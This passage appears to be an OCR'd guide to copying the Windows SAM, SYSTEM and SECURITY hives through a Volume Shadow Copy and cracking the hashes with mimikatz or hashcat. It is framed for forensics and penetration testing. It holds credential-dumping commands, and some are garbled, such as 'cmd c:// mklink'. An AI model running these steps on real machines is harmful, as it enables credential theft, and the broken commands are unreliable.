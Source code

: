 With the SAM and SYSTEM files copied, you can now analyze them using tools like `samdump2`, `mimikatz`, `hashcat`, or `John the Ripper` to extract and crack the password hashes.

### Notes and Considerations

- **Permissions**: Ensure you have administrative privileges to perform these actions.
- **Security**: Be cautious when handling the SAM and SYSTEM files as they contain sensitive information.
- **Cleanup**: After you’ve finished, you can delete the shadow copy to free up space:

  ```cmd
  vssadmin delete shadows /for=C: /oldest
  ```

  Or you can delete a specific shadow copy using its ID:

  ```cmd
  vssadmin delete shadows /Shadow={Shadow Copy ID}
  ```

This process allows you to create a backup of the SAM file without rebooting the system, which is useful for both forensic analysis and penetration testing purposes.

To copy items from a shadow copy volume in PowerShell, you can use the following approach:

```powershell
# List shadow copies
vssadmin list shadows

# Mount a shadow copy (replace X: with an unused drive letter)
cmd.exe //c mklink /d X:\ \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy{shadow_copy_id}\

# Copy files from the shadow copy
Copy-Item -Path "X:\path\to\file" -Destination "C:\destination\path" -Recurse

# Unmount the shadow copy
Remove-Item X:\ -Force
```

Replace `{shadow_copy_id}` with the actual ID of the shadow copy you want to access. This process mounts the shadow copy, allowing you to copy files from it like any other directory.

Here’s a general outline of the steps:

1. **Create a Shadow Copy**:
   Use `vssadmin` to create a shadow copy:
   ```shell
   vssadmin create shadow /for=C:
   ```

2. **Access the Shadow Copy**:
   Identify the shadow copy ID from `vssadmin list shadows` and mount it:
   ```shell
cmd c:// mklink /d X:\ \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy{shadow_copy_id}\
   ```

3. **Copy the Required Files**:
   Copy `SYSTEM`, `SAM`, and `SECURITY` from the shadow copy:
```cmd
Copy-Item "X:\Windows\System32\config\SYSTEM" "C:\path\to\destination\"
Copy-Item "X:\Windows\System32\config\SAM" "C:\path\to\destination\"
Copy-Item "X:\Windows\System32\config\SECURITY" "C:\path\to\destination\"
```
